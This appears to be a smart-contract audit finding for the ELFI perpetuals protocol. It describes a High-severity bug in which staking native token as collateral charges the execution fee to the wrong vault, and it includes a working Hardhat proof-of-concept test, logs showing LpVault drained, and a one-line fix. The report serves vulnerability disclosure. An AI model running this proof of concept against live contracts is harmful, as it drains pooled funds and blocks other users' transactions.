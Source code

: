 Joyous Citron Butterfly

High

# A malicious user can transfer an arbitrary amount of WETH from `LpVault` to `PortfolioVault` by staking native token as collateral

## Summary

The `executionFee` is taken from the wrong vault when a user staking native token as collateral. An attacker could exploit that to transfer an arbitrary amount of WETH from `LpVault` to `PortfolioVault`.

## Vulnerability Detail

A user can stake native token as collateral by setting `isCollateral = true` and `isNativeToken = true` in `IStake.MintStakeTokenParams`. Assuming `walletRequestTokenAmount == requestTokenAmount + executionFee`, the user calls `StakeFacet::createMintStakeTokenRequest` along with `requestTokenAmount + executionFee` ETH. Then `requestTokenAmount + executionFee` WETH will be transfer to `PortfolioVault`

https://github.com/sherlock-audit/2024-05-elfi-protocol/blob/8a1a01804a7de7f73a04d794bf6b8104528681ad/elfi-perp-contracts/contracts/facets/StakeFacet.sol#L46-L54

Then `MintProcess::validateAndDepositMintExecutionFee` returns with `isExecutionFeeFromLpVault = true`

https://github.com/sherlock-audit/2024-05-elfi-protocol/blob/8a1a01804a7de7f73a04d794bf6b8104528681ad/elfi-perp-contracts/contracts/facets/StakeFacet.sol#L57-L58

When the keeper calls `StakeFacet::executeMintStakeToken` the `executionFee` will be taken from `LpVault` to send back to the user.

https://github.com/sherlock-audit/2024-05-elfi-protocol/blob/8a1a01804a7de7f73a04d794bf6b8104528681ad/elfi-perp-contracts/contracts/facets/StakeFacet.sol#L88-L98

Result:
- `LpVault`: decrease `executionFee` WETH
- `PortfolioVault`: increase `requestTokenAmount + executionFee` WETH

As a result, the user can transfer an arbitrary amount of WETH `LpVault` to `PortfolioVault` by setting `executionFee` to the amount they wants. 

## Impact

The attacker could break many contract's functionalities by transferring WETH out of the `LpVault`. For example, denying the keeper from calling `StakeFacet::executeMintStakeToken`.

`test/single-cases/poc.test.ts`

```javascript
import { Fixture, deployFixture } from '@test/deployFixture'
import { MINT_ID_KEY } from '@utils/constants'
import { precision } from '@utils/precision'
import { createMint, executeMint } from '@utils/mint'
import { MarketFacet, WETH } from 'types'
import { HardhatEthersSigner } from '@nomicfoundation/hardhat-ethers/signers'
import { ConfigFacet, IConfig } from 'types/contracts/facets/ConfigFacet'

describe('POC', function () {
  let fixture: Fixture
  let marketFacet: MarketFacet, configFacet: ConfigFacet
  let user0: HardhatEthersSigner
  let lpVaultAddr: string, portfolioVaultAddr: string, wethAddr: string
  let xEth: string
  let weth: WETH
  let config: IConfig.CommonConfigParamsStructOutput

  beforeEach(async () => {
    fixture = await deployFixture()
    ;({ marketFacet, configFacet } = fixture.contracts)
    ;({ user0 } = fixture.accounts)
    ;({ xEth } = fixture.pools)
    ;({ weth } = fixture.tokens)
    ;({ lpVaultAddr, portfolioVaultAddr } = fixture.addresses)

    config = await configFacet.getConfig()
    wethAddr = await weth.getAddress()
  })

  it('POC', async function () {
    // Transfer WETH to LP vault for gas fee
    await weth.connect(user0).transfer(lpVaultAddr, precision.token(2, 15))

    // Attacker request
    await createMint(fixture, {
        stakeToken: xEth,
        requestToken: weth,
        requestTokenAmount: precision.token(1, 15),
        walletRequestTokenAmount: precision.token(1, 15),
        isCollateral: true,
        isNativeToken: true,
        executionFee: precision.token(99_999, 15),
    })    
    const attckerRequestId = await marketFacet.getLastUuid(MINT_ID_KEY)

    // User request    
    await createMint(fixture, {
      stakeToken: xEth,
      requestToken: weth,
      requestTokenAmount: precision.token(50),
      walletRequestTokenAmount: precision.token(50),
      isCollateral: false,
      isNativeToken: true,
      executionFee: precision.token(2, 15),
    })    

    // User request
    await createMint(fixture, {
      stakeToken: xEth,
      requestToken: weth,
      requestTokenAmount: precision.token(50),
      walletRequestTokenAmount: precision.token(50),
      isCollateral: false,
      isNativeToken: true,
      executionFee: precision.token(2, 15),
    })   

    const preWEthLpVaultBalance = BigInt(await weth.balanceOf(lpVaultAddr))
    const preWEthPortfolioVaultBalance = BigInt(await weth.balanceOf(portfolioVaultAddr))

    console.log('preEthLpVaultBalance:', preWEthLpVaultBalance)
    console.log('preEthPortfolioVaultBalance:', preWEthPortfolioVaultBalance)

    const userRequestId = await marketFacet.getLastUuid(MINT_ID_KEY)

    const tokenPrice = precision.price(1800)
    const oracle = [{ token: wethAddr, minPrice: tokenPrice, maxPrice: tokenPrice }]

    await executeMint(fixture, {
      requestId: attckerRequestId,
      oracle: oracle,
    })

    const postWEthLpVaultBalance = BigInt(await weth.balanceOf(lpVaultAddr)) 
    const postWEthPortfolioVaultBalance = BigInt(await weth.balanceOf(portfolioVaultAddr))

    console.log('postEthLpVaultBalance:', postWEthLpVaultBalance)
    console.log('postEthPortfolioVaultBalance:', postWEthPortfolioVaultBalance)

    // This would revert because there is not enough WETH in the LP vault
    await executeMint(fixture, {
      requestId: userRequestId,
      oracle: oracle,
    })
  })
})
```

Logs
```bash
preEthLpVaultBalance: 100006000000000000000n
preEthPortfolioVaultBalance: 100000000000000000000n
postEthLpVaultBalance: 7000000000000000n
postEthPortfolioVaultBalance: 100000000000000000000n
```

## Code Snippet

## Tool used

Manual Review

## Recommendation

Take the `executionFee` from `PortfolioVault` when a user stake native token as collateral 

```diff
    function validateAndDepositMintExecutionFee(
        address account,
        IStake.MintStakeTokenParams calldata params
    ) external returns (uint256, bool) {
        AppConfig.ChainConfig memory chainConfig = AppConfig.getChainConfig();
        GasProcess.validateExecutionFeeLimit(params.executionFee, chainConfig.mintGasFeeLimit);
        if (params.isNativeToken && params.walletRequestTokenAmount >= params.executionFee) {
-           return (params.walletRequestTokenAmount - params.executionFee, true);
+           return (params.walletRequestTokenAmount - params.executionFee, !params.isCollateral);
        }
	...
```